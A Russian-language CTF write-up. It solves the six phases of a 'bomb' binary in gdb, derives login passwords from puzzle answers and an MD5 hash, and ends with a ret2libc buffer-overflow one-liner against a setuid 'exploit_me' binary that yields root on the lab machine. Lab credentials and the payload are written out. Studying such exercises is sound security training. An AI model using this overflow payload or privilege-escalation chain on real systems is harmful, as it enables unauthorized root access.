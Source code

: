# Второй способ предполагает использование файла bomb когда мы зашли на сервер.
### Сперва надо войти на сервер, описание в writeup1.md.
Входим на сервер
``ssh laurie@172.16.101.128``
``login: laurie``
``password: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4``
Делаем проверку того что лежит на сервере.
``ls``
Файл bomb это бинарник, при запуске нужно пройти несколько фаз для дешифровки.
## Играем в bomb.
Первым делом делаем ``nm bomb`` для получения таблиц имен бинарника.
![
08048b20 T phase_1
08048b48 T phase_2
08048b98 T phase_3
08048ce0 T phase_4
08048d2c T phase_5
08048d98 T phase_6
](/imgs/img2_1.png)

### Расшифровка первой фазы.
Для расшифроки нам потребуется дебагер ``gbd``, его мы используем на всех фазах.
``gdb ./bomb``
``(gdb) disass phase_1``

![
0x08048b32 <+18>:	call   0x8049030 <strings_not_equal>
](/imgs/img2_2.png)

Нам нужна вот эта строка ``0x08048b32 <+18>:	call   0x8049030 <strings_not_equal>``, а точнее ее адрес.
``(gdb) x/s 0x80497c0`` -> ``"Public speaking is very easy."``
Первая фаза пройдена.
### Расшифровка второй фазы.
``(gdb) disass phase_2``
![
0x08048b5b <+19>:	call   0x8048fd8 <read_six_numbers>
](/imgs/img2_3.png)
Нам нужна вот эта строка ``0x08048b5b <+19>:	call   0x8048fd8 <read_six_numbers>``, а точнее ее адрес.
``(gdb) x/s 0x08049b1b`` -> ``"%d %d %d %d %d %d"``
Теперь мы знаем что оно должно на вход получить 6 цифр.
На этой строке ``0x08048b63 <+27>:	cmpl   $0x1,-0x18(%ebp)`` идет сравнение, равняется ли первое число единице. Значит первое значение 1. Дальше простым подбором определяем следующие значения.
Значения 
``1 - 1``
``2 - 2``
``3 - 6``
``4 - 24``
На этом этапе можно определить логику по которой строятся цифры.
``1 - 1`` -> ``1 * 1 = 1``
``2 - 2`` -> ``1 * 2 = 2``
``3 - 6`` -> ``2 * 3 = 6``
``4 - 24`` -> ``6 * 4 = 24``
``5 - 120`` -> ``24 * 5 = 120``
``6 - 720`` -> ``120 * 6 = 720``
Вторая фаза пройдена.
### Расшифровка третьей фазы.
``(gdb) disass phase_3``
![
0x08048bb7 <+31>:	call   0x8048860 <sscanf@plt>
](/imgs/img2_4.png)

Нам нужна эта строка ``0x08048bb7 <+31>:	call   0x8048860 <sscanf@plt>``, в которую идет запись на вот этой строке ``0x08048bb1 <+25>:	push   $0x80497de``
``(gdb) x/s 0x80497de`` -> ``"%d %c %d"``.
Открыв ридми можно узнать что нам нужен символ `b`.
В итоге у нас получается найти вариант ``1 b 214``. Так же были варианты ``7 b 524	`` и ``2 b 755`` но они не подошли.
Третья фаза пройдена.
### Расшифровка четвертой фазы.
``(gdb) disass phase_4``
![
0x08048cf6 <+22>:	call   0x8048860 <sscanf@plt>
](/imgs/img2_5.png)

Делаем то же что делали на третьем шаге. 
Нам нужна эта строка ``0x08048cf6 <+22>:	call   0x8048860 <sscanf@plt>``
В нее идет запись с этой строки ``0x08048cf0 <+16>:	push   $0x8049808``
``(gdb) x/s 0x8049808`` -> ``"%d"``
Пробуем разные варианты, ``42`` а также от ``1`` до ``10``. Сработало, нужный нам вариант ``9``.
Четверный этап пройден.
### Расшифровка пятой фазы.
``(gdb) disass phase_5``
![
0x08048d3b <+15>:	call   0x8049018 <string_length>
0x08048d40 <+20>:	add    $0x10,%esp
0x08048d43 <+23>:	cmp    $0x6,%eax
](/imgs/img2_6.png)

Здесь немного почитав можно прийти к выводу что на этом этапе от нас требуют строку длиной в 6 символов.

Идем дальше ``0x08048d7b <+79>:	call   0x8049030 <strings_not_equal>``.
``(gdb) x/s 0x804980b`` -> ``giants``
Идем дальше ``0x08048d52 <+38>:	mov    $0x804b220``
``(gdb) x/s 0x804b220`` -> ``"isrveawhobpnutfg\260\001"``
Теперь у нас есть паттерн и строка которую надо расшифровать паттерном, после
долгих часов поисков получаем результат - ``opekmq``
Идея в том что в обоих словах по 6 символов, если сравнить строку 
``_abcdefghijklmno``
``pqrstuvwxyz``
``isrveawhobpnutfg``
`g` -> `o`
`i` -> `p`
`a` -> `e`
`n` -> `k`
`t` -> `m`
`s` -> `q`
Расшифровка пятой фазы завершена.

### Расшифровка шестой фазы.
``(gdb) disass phase_6``
![
0x08048db3 <+27>:	call   0x8048fd8 <read_six_numbers>
](/imgs/img2_7.png)

Нужная нам строка ``0x08048db3 <+27>:	call   0x8048fd8 <read_six_numbers>``, теперь мы знаем что от нас требуют 6 цифр. Почитав как устроен механизм можно понять что там задан массив от 1 до 6, а проверка инпута происходит по индексам массива 1 - 6. Таким образом, правильный ответ ``4 2 6 3 1 5``.
Расшифровка шестой фазы закончена.
## Применение 
В ридми который лежал рядом с файлом bomb есть описание что после завершения игры стоит попробовать войти под логином ``thor``. Пароль состоит из составления
результата каждой фазы бомбы. В итоге у нас получается такой результат ``Publicspeakingisveryeasy.126241207201b2149opekmq426135``.
В итоге:
``login: thor``
``password: Publicspeakingisveryeasy.126241207201b2149opekmq426315``
Попытавшись войти под данным логином и паролем ничего не выйдет, покопавшись на форуме интры и поспрашивав у других людей оказывается что пароль надо немного
видоизменить в ``Publicspeakingisveryeasy.126241207201b2149opekmq426135``
Мы зашли на сервер.
## Решение загадки turtule.
Войдя под тором мы получаем два файла, README в котором говорится что после расшифроки загадки использовать пароль для входом под логином ``zaz``.
Файл ``turtule`` в котором описываются линии и градусы поворота, в итоге мы получаем слово ``SLASH``. При поптыке войти под 
``login: zaz``
``password: SLASH``
Вход не получается, но основе того что предыдущие пароли были хешироваными мы попробовали захешироватб слово в SHA-256 что не дало результата и в MD-5 что дало результат. В итоге получаем пароль ``646da671ca01bb5d84dbb5fb2238dc8e``.
``login: zaz``
``password: 646da671ca01bb5d84dbb5fb2238dc8e``

## Вход под @zaz.
Войдя под zaz мы находим файл ``exploit_me``.
Первым делом делаем ``nm exploit_me`` что бы знать что дизасемблировать.
Теперь запускаем отладчик ``gdb ./exploit_me``.
``(gdb) disass main``
![
0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
](/imgs/img2_8.png)
Находим вот эту строку ``0x08048420 <+44>:	call   0x8048300 <strcpy@plt>`` почитав в интирнетах находим что у нее есть уязвимость в виде переполнения стека. Проверяем.
``./exploit_me $(python -c "print('`' * 140)")`` -> ``Illegal instruction (core dumped)``
Находим описание [ret2libc attack](http://shellblade.net/docs/ret2libc.pdf)
Используем:
![
](/imgs/img2_9.png)
По описанию у нас получается скрипт в виде:
``./exploit_me $(python -c "print('A' * 140 + '\xb7\xe6\xb0\x60'[::-1] + 'AAAA' + '\xb7\xf8\xcc\x58'[::-1])") id uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)``
# Мы под рутом.


